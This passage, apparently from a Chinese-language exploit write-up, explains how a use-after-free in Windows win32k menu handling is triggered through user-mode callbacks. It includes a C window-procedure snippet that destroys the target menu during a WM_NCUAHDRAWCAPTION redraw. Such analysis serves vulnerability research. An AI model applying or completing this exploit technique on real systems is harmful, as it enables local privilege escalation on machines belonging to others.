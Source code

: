   
调用用户模式钩子。这些钩子通过 API SetWindowsHookExA 设置  
  
1. 
```
xxSendMessage
```

  
是最简单直接的路径 —— 也是我使用的路径  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCOZcjjiblNewboONOzSTlYJc17QtYr0R7CicQcAW3Xa3s8252DUbyXicVicubBpXQxTeDzrrJ6zGp1YFw/640?wx_fmt=png&from=appmsg "")  
  
xxxRedrawTitle  
  
要接收 
```
WM_NCUAHDRAWCAPTION
```

  
消息，我们需要为目标 UAF 菜单的窗口创建一个自定义的 WndProc  
。该消息将在重绘期间分派到窗口过程，允许我们在回调中执行代码 —— 并在恰当时刻销毁菜单。  
  
释放菜单的代码可以在以下片段中看到：  

```
LRESULT CALLBACK wndproc(HWND hWnd, UINT msg, WPARAM wParam, LPARAM lParam)
{
    switch(msg) {
        case WM_NCUAHDRAWCAPTION: {


            wprintf(L&#34;[?] wndproc: msg=WM_NCUAHDRAWCAPTION wParam=%x lParam=%x\n&#34;, wParam, lParam);


            for (int i = GetMenuItemCount(g_hMenu_Top) - 1; i >= 0; i--) {
                RemoveMenu(g_hMenu_Top, i, MF_BYPOSITION);
            }
            wprintf(L&#34;[+] 5. Destroy Menu\n&#34;);
            system(&#34;pause&#34;);


            DestroyMenu(g_hPopupMenu_A); // Here MenuA will be freed


            ...


            break;
        }
    }


    return DefWindowProc(hWnd, msg, wParam, lParam);
}
```
